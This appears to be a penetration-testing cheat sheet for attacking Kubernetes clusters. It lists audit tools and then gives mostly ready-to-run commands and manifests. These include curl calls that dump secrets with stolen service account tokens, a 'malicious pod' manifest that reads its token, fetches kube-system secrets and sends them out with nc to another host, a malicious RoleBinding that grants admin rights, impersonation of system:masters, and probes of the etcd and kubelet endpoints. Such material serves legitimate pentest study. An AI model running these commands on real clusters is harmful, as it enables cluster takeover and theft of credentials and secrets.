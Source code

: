# Kubernetes

> Kubernetes is an open-source container-orchestration system for automating application deployment, scaling, and management. It was originally designed by Google, and is now maintained by the Cloud Native Computing Foundation.

## Summary

- [Tools](#tools)
- [RBAC Configuration](#rbac-configuration)
  - [Listing Secrets](#listing-secrets)
  - [Access Any Resource or Verb](#access-any-resource-or-verb)
  - [Pod Creation](#pod-creation)
  - [Privilege to Use Pods/Exec](#privilege-to-use-pods-exec)
  - [Privilege to Get/Patch Rolebindings](#privilege-to-get-patch-rolebindings)
  - [Impersonating a Privileged Account](#impersonating-a-privileged-account)
- [Privileged Service Account Token](#privileged-service-account-token)
- [Interesting endpoints to reach](#interesting-endpoints-to-reach)
- [API addresses that you should know](#api-adresses-that-you-should-know)
- [References](#references)

## Tools

* [kubeaudit](https://github.com/Shopify/kubeaudit). kubeaudit is a command line tool to audit Kubernetes clusters for various different security concerns: run the container as a non-root user, use a read only root filesystem, drop scary capabilities, don't add new ones, don't run privileged, ...
* [kubesec.io](https://kubesec.io/). Security risk analysis for Kubernetes resources.
* [kube-bench](https://github.com/aquasecurity/kube-bench). kube-bench is a Go application that checks whether Kubernetes is deployed securely by running the checks documented in the [CIS Kubernetes Benchmark](https://www.cisecurity.org/benchmark/kubernetes/).

* [katacoda](https://katacoda.com/courses/kubernetes). Learn Kubernetes using interactive broser-based scenarios.

## Service Token

> As it turns out, when pods (a Kubernetes abstraction for a group of containers) are created they are automatically assigned the default service account, and a new volume is created containing the token for accessing the Kubernetes API. That volume is then mounted into all the containers in the pod.

```powershell
$ cat /var/run/secrets/kubernetes.io/serviceaccount

# kubectl makes cluster compromise trivial as it will use that serviceaccount token without additional prompting
```

## RBAC Configuration

### Listing Secrets

An attacker that gains access to list secrets in the cluster can use the following curl commands to get all secrets in "kube-system" namespace.

```powershell
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Access Any Resource or Verb

```powershell
resources:
- '*'
verbs:
- '*'
```

### Pod Creation

Check your right with `kubectl get role system:controller:bootstrap-signer -n kube-system -o yaml`.
Then create a malicious pod.yaml file.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

Then `kubectl apply -f malicious-pod.yaml`

### Privilege to Use Pods/Exec

```powershell
kubectl exec -it <POD NAME> -n <PODS NAMESPACE> –- sh
```

### Privilege to Get/Patch Rolebindings

The purpose of this JSON file is to bind the admin "CluserRole" to the compromised service account.
Create a malicious RoleBinging.json file.

```powershell
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespcaes": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "sa-comp"
            "namespace": "default"
        }
    ]
}
```

```powershell
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinging.json
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

### Impersonating a Privileged Account

```powershell
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" -H "Impersonate-Group: system:masters" -H "Impersonate-User: null" -H "Accept: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

## Privileged Service Account Token

```powershell
cat /run/secrets/kubernetes.io/serviceaccount/token
curl -k -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/
```

## Interesting endpoints to reach

```powershell
# List Pods
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/pods/

# List secrets
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/

# List deployments
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip:<port>/apis/extensions/v1beta1/namespaces/default/deployments

# List daemonsets
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip:<port>/apis/extensions/v1beta1/namespaces/default/daemonsets
```

## API addresses that you should know

*(External network visibility)*

### cAdvisor

```powershell
curl -k https://<IP Address>:4194
```

### Insecure API server

```powershell
curl -k https://<IP Address>:8080
```

### Secure API Server

```powershell
curl -k https://<IP Address>:(8|6)443/swaggerapi
curl -k https://<IP Address>:(8|6)443/healthz
curl -k https://<IP Address>:(8|6)443/api/v1
```

### etcd API

```powershell
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```

### Kubelet API

```powershell
curl -k https://<IP address>:10250
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

### kubelet (Read only)

```powershell
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```

## References

- [Kubernetes Pentest Methodology Part 1 - by Or Ida on August 8, 2019](https://securityboulevard.com/2019/08/kubernetes-pentest-methodology-part-1)
- [Kubernetes Pentest Methodology Part 2 - by Or Ida on September 5, 2019](https://securityboulevard.com/2019/09/kubernetes-pentest-methodology-part-2)
- [Capturing all the flags in BSidesSF CTF by pwning our infrastructure - Hackernoon](https://hackernoon.com/capturing-all-the-flags-in-bsidessf-ctf-by-pwning-our-infrastructure-3570b99b4dd0)
